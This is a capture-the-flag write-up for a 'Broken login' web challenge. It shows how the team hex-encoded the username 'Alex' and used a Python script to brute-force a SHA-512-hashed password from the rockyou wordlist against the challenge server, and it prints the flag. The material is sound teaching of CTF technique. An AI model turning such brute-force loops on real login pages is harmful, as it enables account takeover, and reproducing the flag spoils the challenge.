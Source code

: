 # Broken login (web/guessing, 365p, 20 solved)

## Description

```
Intern season is up again and our new intern Alex had to do a simple login page. 
Not only the login page is not working properly, it is also highly insecure...

Flag format: CTF{sha256}
```

In the task we get a webpage with login form.

## Task analysis

Once we type credentials in the form a POST is sent to `/login` and we get back redirect to `/auth` but our login got `hex-encoded`, parameter changed name from `name` to `username` and password turned into its `sha512`.

## Solution

### Guessing 

It took us a very long time to guess that `the login page is not working properly` from task description was supposed to hint that this parameter name change was a `bug`.

### Getting user

Once we go to `/auth` with `name` and `password` we get a new message `Invalid user`.
Since the task description mentions `Alex` and we know we just need to `hex-encode`, we try with `416c6578` and we get `Invalid password` now.

### Getting password

Now we spent very long time trying to guess the next step.
Description hints at `it is also highly insecure`, so we expected some web-vulnerability, maybe SQLi or at least a timing attack of some sort when comparing password.

Finally the crystal ball has spoken -> maybe let's just try bruteforce the password with `rockyou`?

```python
import codecs
import hashlib

import requests


def main():
    with codecs.open("rockyou.txt", 'rb') as pass_file:
        for p in pass_file.readlines():
            password = hashlib.sha512(p.strip()).hexdigest()
            print(password)
            name = 'Alex'.encode("hex")
            print(name)
            r = requests.get("http://35.234.65.24:31441/auth?name=" + name + "&password=" + password)
            if 'Invalid' not in r.text:
                print(p, r.text)
                break
            print(p, r.text)


main()
```

And after a moment we get: `CTF{bf3dd66e1c8e91683070d17ec2afb13375488eee109a0724bb872c9d70b7cc3d}`
